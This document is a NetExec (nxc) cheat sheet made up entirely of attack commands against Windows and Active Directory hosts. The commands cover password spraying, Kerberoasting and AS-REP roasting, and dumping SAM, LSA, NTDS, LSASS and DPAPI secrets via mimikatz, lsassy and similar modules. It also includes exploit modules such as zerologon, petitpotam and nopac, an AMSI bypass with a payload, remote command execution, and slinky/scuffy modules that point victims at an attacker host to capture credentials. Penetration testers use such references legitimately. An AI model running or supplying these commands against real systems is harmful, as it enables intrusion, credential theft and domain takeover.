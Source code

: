# nxc Cheatsheet
nxc $ip -u $user -p $pass --sessions
nxc $ip -u $user -p $pass -x whoami
nxc ftp $ip -u $pass -p $pass --ls
nxc ftp $ip -u $user -p $pass --ls
nxc ftp $ip -u $user -p $pass --ls folder_name
nxc ftp $ip -u $user -p $pass --ls folder_name --get file_name
nxc ftp $ip -u $user -p $pass --no-bruteforce
nxc ldap $dc $user -p $pass -k --get-sid
nxc ldap $dc -k --kdcHost $dc -M daclread -o TARGET=$ip ACTION=backup
nxc ldap $dc -k --kdcHost $dc -M daclread -o TARGET=$ip ACTION=read
nxc ldap $dc -k --kdcHost $dc -M daclread -o TARGET=$ip ACTION=read ACE_TYPE=denied
nxc ldap $dc -k --kdcHost $dc -M daclread -o TARGET=$ip ACTION=read PRINCIPAL=BlWasp
nxc ldap $dc -k --kdcHost $dc -M daclread -o TARGET_DN="DC=lab,DC=LOCAL" ACTION=read RIGHTS=DCSync
nxc ldap $dc -u $user -p $pass -M laps -o computer=$ip
nxc ldap $dom -u $user -p $pass --gmsa-decrypt-lsa gmsa_account
nxc ldap $dom -u $user -p $pass -M get-desc-users
nxc ldap $ip -u $user -H $hash
nxc ldap $ip -u $user -p $pass
nxc ldap $ip -u $user -p $pass --$user-count
nxc ldap $ip -u $user -p $pass --active-users
nxc ldap $ip -u $user -p $pass --asreproast asrep.txt
nxc ldap $ip -u $user -p $pass --asreproast $user.asreproast.txt --kdcHost $dom
nxc ldap $ip -u $user -p $pass --bloodhound --collection All
nxc ldap $ip -u $user -p $pass --bloodhound -ns $ip --collection All
nxc ldap $ip -u $user -p $pass --dc-ip $ip
nxc ldap $ip -u $user -p $pass --gmsa
nxc ldap $ip -u $user -p $pass --gmsa-convert-id 313e25a880eb773502f03ad5021f49c2eb5b5be2a09f9883ae0d83308dbfa724
nxc ldap $ip -u $user -p $pass --gmsa-convert-id id
nxc ldap $ip -u $user -p $pass --gmsa-decrypt-lsa '_SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_313e25a880eb773502f03ad5021f49c2eb5b5be2a09f9883ae0d83308dbfa724...'
nxc ldap $ip -u $user -p $pass --kerberoasting kerb.txt
nxc ldap $ip -u $user -p $pass --kerberoasting output.txt
nxc ldap $ip -u $user -p $pass --trusted-for-delegation
nxc ldap $ip -u $user -p $pass --trusted-for-delegation  --pass-not-required --user-count --users --groups
nxc ldap $ip -u $user -p $pass --users
nxc ldap $ip -u $user -p $pass -M adcs
nxc ldap $ip -u $user -p $pass -M enum_trusts
nxc ldap $ip -u $user -p $pass -M get-network
nxc ldap $ip -u $user -p $pass -M get-network -o ALL=true
nxc ldap $ip -u $user -p $pass -M get-network -o ONLY_HOSTS=true
nxc ldap $ip -u $user -p $pass -M ldap-checker
nxc ldap $ip -u $user -p $pass -M maq
nxc ldap $ip -u $user -p $pass -k
nxc ldap $ip -u $user -p $pass -query "(sAMAccountName=$user)" ""
nxc ldap $ip -u $user -p $pass -query "(sAMAccountName=$user)" "sAMAccountName objectClass pwdLastSet"
nxc mssql $ip -u $user -p $pass
nxc mssql $ip -u $user -p $pass --get-file C
nxc mssql $ip -u $user -p $pass --get-file output_file $ip_file
nxc mssql $ip -u $user -p $pass --local-auth
nxc mssql $ip -u $user -p $pass --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
nxc mssql $ip -u $user -p $pass --no-bruteforce
nxc mssql $ip -u $user -p $pass --port $port
nxc mssql $ip -u $user -p $pass --put-file  --put-file /tmp/users C
nxc mssql $ip -u $user -p $pass -d $dom
nxc mssql $ip -u $user -p $pass -x command_to_execute
nxc mssql $ip -u $user -p $pass -M mssql_priv
nxc mssql $ip -u sa -p $pass --local-auth -x whoami
nxc rdp $ip -u $user -p $pass
nxc rdp $ip -u $user -p $pass --no-bruteforce
nxc smb $dc --use-kcache
nxc smb $ip --gen-relay-list relay.txt
nxc smb $ip --gen-relay-list relay_list.txt
nxc smb $ip -u "${dc}01\$" -H $hash --delegate $user --self
nxc smb $ip -u $user  -p $pass  -M spider_plus
nxc smb $ip -u $user  -p $pass  -M spider_plus -o DOWNLOAD_FLAG=True
nxc smb $ip -u $user -H $hash
nxc smb $ip -u $user -H $hash --local-auth
nxc smb $ip -u $user -p $pass
nxc smb $ip -u $user -p $pass --continue-on-success
nxc smb $ip -u $user -p $pass --delegate $user
nxc smb $ip -u $user -p $pass --disks
nxc smb $ip -u $user -p $pass --get-file  \\Windows\\Temp\\whoami.txt /tmp/whoami.txt
nxc smb $ip -u $user -p $pass --groups
nxc smb $ip -u $user -p $pass --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
nxc smb $ip -u $user -p $pass --interfaces
nxc smb $ip -u $user -p $pass --laps
nxc smb $ip -u $user -p $pass --laps --dpapi
nxc smb $ip -u $user -p $pass --local-auth
nxc smb $ip -u $user -p $pass --local-auth --lsa
nxc smb $ip -u $user -p $pass --local-group
nxc smb $ip -u $user -p $pass --local-groups
nxc smb $ip -u $user -p $pass --loggedon-users
nxc smb $ip -u $user -p $pass --lsa
nxc smb $ip -u $user -p $pass --ntds
nxc smb $ip -u $user -p $pass --ntds #Via RPC
nxc smb $ip -u $user -p $pass --ntds --users
nxc smb $ip -u $user -p $pass --ntds --users --enabled
nxc smb $ip -u $user -p $pass --ntds vss
nxc smb $ip -u $user -p $pass --ntds vss #Via VSS
nxc smb $ip -u $user -p $pass --pass-pol
nxc smb $ip -u $user -p $pass --put-file /tmp/whoami.txt \\Windows\\Temp\\whoami.txt
nxc smb $ip -u $user -p $pass --rid-brute
nxc smb $ip -u $user -p $pass --sam
nxc smb $ip -u $user -p $pass --sccm
nxc smb $ip -u $user -p $pass --sccm disk
nxc smb $ip -u $user -p $pass --sccm wmi
nxc smb $ip -u $user -p $pass --sessions
nxc smb $ip -u $user -p $pass --shares
nxc smb $ip -u $user -p $pass --shares --filter-shares READ WRITE
nxc smb $ip -u $user -p $pass --users
nxc smb $ip -u $user -p $pass -M enum_av
nxc smb $ip -u $user -p $pass -M gpp_$pass
nxc smb $ip -u $user -p $pass -M lsassy
nxc smb $ip -u $user -p $pass -M mimikatz
nxc smb $ip -u $user -p $pass -M mimikatz -o COMMAND='"lsadump
nxc smb $ip -u $user -p $pass -M mremoteng
nxc smb $ip -u $user -p $pass -M msol
nxc smb $ip -u $user -p $pass -M nanodump
nxc smb $ip -u $user -p $pass -M nopac
nxc smb $ip -u $user -p $pass -M ntdsutil
nxc smb $ip -u $user -p $pass -M petitpotam
nxc smb $ip -u $user -p $pass -M procdump
nxc smb $ip -u $user -p $pass -M rdcman
nxc smb $ip -u $user -p $pass -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
nxc smb $ip -u $user -p $pass -M scuffy -o SERVER=$myip -o NAME=$file
nxc smb $ip -u $user -p $pass -M security-questions
nxc smb $ip -u $user -p $pass -M slinky -o SERVER=$myip -o NAME=$file
nxc smb $ip -u $user -p $pass -M spider_plus
nxc smb $ip -u $user -p $pass -M spider_plus -o READ_ONLY=False
nxc smb $ip -u $user -p $pass -M spider_plus -o READ_ONLY=false
nxc smb $ip -u $user -p $pass -M teams_localdb
nxc smb $ip -u $user -p $pass -M veeam
nxc smb $ip -u $user -p $pass -M vnc
nxc smb $ip -u $user -p $pass -M winscp
nxc smb $ip -u $user -p $pass -M wireless
nxc smb $ip -u $user -p $pass -M zerologon
nxc smb $ip -u $user -p $pass -X '$PSVersionTable'
nxc smb $ip -u $user -p $pass -X '$PSVersionTable'  --amsi-bypass /path/payload
nxc smb $ip -u $user -p $pass -dpapi
nxc smb $ip -u $user -p $pass -dpapi cookies
nxc smb $ip -u $user -p $pass -dpapi nosystem
nxc smb $ip -u $user -p $pass -k
nxc smb $ip -u $user -p $pass -k --get-file $ip_file output_file --share sharename
nxc smb $ip -u $user -p $pass -local-auth --dpapi nosystem
nxc smb $ip -u $user -p $pass -x whoami
nxc smb $ip -u $user -p $pass.txt
nxc smb $ip -u $user -p $pass.txt --no-bruteforce --continue-on-success
nxc smb $ip -u $user -p user.txt --no-bruteforce --continue-on-success
nxc smb $ip -u $user2 -H $hash --delegate $user --self
nxc smb $ip -u 'a' -p $pass --shares
nxc smb $ip -u 'guest' -p $pass
nxc smb -M lsassy --options
nxc smb ip -u $user -p $pass -M ntdsutil
nxc smb ip -u $user -p $pass -M slinky
nxc smb ip -u $user -p $pass -M webdav
nxc ssh $ip -u $user -p $pass
nxc ssh $ip -u $user -p $pass --continue-on-success
nxc ssh $ip -u $user -p $pass --no-bruteforce
nxc ssh $ip -u $user -p $pass -x whoami
nxc winrm $ip -u $user $pass -X whoami
nxc winrm $ip -u $user -p $pass
nxc winrm $ip -u $user -p $pass $dom
nxc winrm $ip -u $user -p $pass --no-bruteforce
nxc wmi $ip -u $user -p $pass
nxc wmi $ip -u $user -p $pass --no-bruteforce
nxc wmi $ip -u $user -p $pass -d $dom
nxc wmi $ip -u $user -p $user --local-auth
sudo nxc smb $dc --use-kcache -x whoami
sudo nxc smb $dc -k -u $user -p $pass
